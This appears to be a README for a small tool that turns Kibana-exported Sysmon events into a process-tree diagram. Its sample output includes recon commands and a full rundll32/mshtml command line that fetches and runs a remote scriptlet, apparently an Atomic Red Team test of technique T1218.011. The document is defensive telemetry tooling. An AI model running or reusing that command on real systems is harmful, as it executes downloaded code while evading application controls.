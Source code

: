 # treeify_sysmon_events

Take in a CSV generated from kibana of your sysmon events, and output a tree style diagram showing the event hierarchy

```
1
└── [N/A] PID: 7652 - Creation Point
    ├── [171,569] PID: 3884 - "C:\Windows\system32\HOSTNAME.EXE"
    ├── [171,570] PID: 2052 - "C:\Windows\system32\whoami.exe"
    └── [171,571] PID: 3180 - "cmd.exe" /c "rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1218.011/src/T1218.011.sct").Exec();window.close();"
        └── [171,572] PID: 5772 - rundll32.exe  javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1218.011/src/T1218.011.sct").Exec();window.close();
            ├── [171,573] PID: 1876 - "C:\Windows\System32\notepad.exe" 
            ├── [171,577] Event: network connection
            └── [171,578] Event: DNSEvent
```
numbers in `[]` are the event log ID.
